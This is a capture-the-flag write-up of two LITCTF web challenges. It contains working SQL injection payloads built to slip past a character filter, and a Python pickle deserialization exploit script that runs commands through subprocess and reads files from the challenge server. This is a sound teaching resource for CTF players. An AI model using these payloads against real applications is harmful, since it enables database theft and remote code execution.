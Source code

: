 # LITCTF

## Author: darkmode
## Category: WEB(6/7)

## Alex-fan-club
## Type: sqli

The interface of website 
![1](challAFC.png)
![2](interface.png)

```python
sqli = 1 in [c in param for c in "*-/ |%"]
```
- This challenge filters `*-/ |%`, it has vulnerable here because it only filters
space. We can use tab to replace space


### Solution

I try to use payload `'or(1)or'` and it work (return all result)

First my idea is blind sqli:)), and it is stupid (but it work xD)
```mysql
select * from achievements where achievement like '%'or(substr((SELECT(tbl_name)FROM(sqlite_master)),1,1)='a'or'%'
```
I use burp intruder to brute it, and i get 2 tables:
- `achievements`
- `flag_is_in_here`

But i don't know how to brute column in the table flag_is_in_here

I build the chall in the local and `DB browser` to query `select * from sqlite_master`
and It returns 1 column name `sql` which contains struct of all table.

I continues use burp intruder to brute and I get column `flag_column`
Brute it and we get flag.
`'or(substr((SELECT(flag_column)from(flag_is_in_here)),1,1)='a'or'`
### Solution 2
When i have solved this chall, i realise we can use tab to replace space

Payload look like:

`'union%09select(flag_column)from(flag_is_in_here)union%09select'`



## Alex-fan-club
## Type: pickle deserialization rce

![3](challpickle.png)
This chall use pickle to serialize object, when you create a bio it create a id with your bio

I have read a post write about pickle rce
https://davidhamann.de/2020/04/05/exploiting-python-pickle/

We take advantage from implementing `__reduce__` to get code execution 

I found a payload of pickle rce here:
https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd

This chall has filter os and open, so we can't use `os` library to execute

```python
	if pickle_str[:len(dict_prefix)] != dict_prefix or pickle_str[-len(dict_suffix):] != dict_suffix or b"flag" in pickle_str or b"os." in pickle_str or b"open" in pickle_str:
		return "uhoh"
```

i use payload above to create a pickle string, but i use subprocess instead

```python
class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, ("ls", )
		
payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))
```

In line 36, the pickle_str will be loads, and the endpoint `/new` will return result 
```python
obj = pickle.loads(pickle_str)
```
So send this payload above to `url/new`, we success to RCE

![1](1.png)

Finally code to get flag:
```python
import pickle,base64,requests,re

url = "https://a-flask-of-pickles.litctf.live/"

class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, (["cat","flaskofpickles.py"], )

payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))

#Post to endpoint /new
_id = requests.post(url + "new", data=payload)
#It'll return id
url_result = url + _id.text

#Get the result
print("[+] Query to url",url_result)
result = requests.get(url_result).text
print(result)
result = "flag{" + re.findall('flag{(.*?)}',result)[0] + "}"
print("[+] Get the result:",result)
```
![2](2.png)
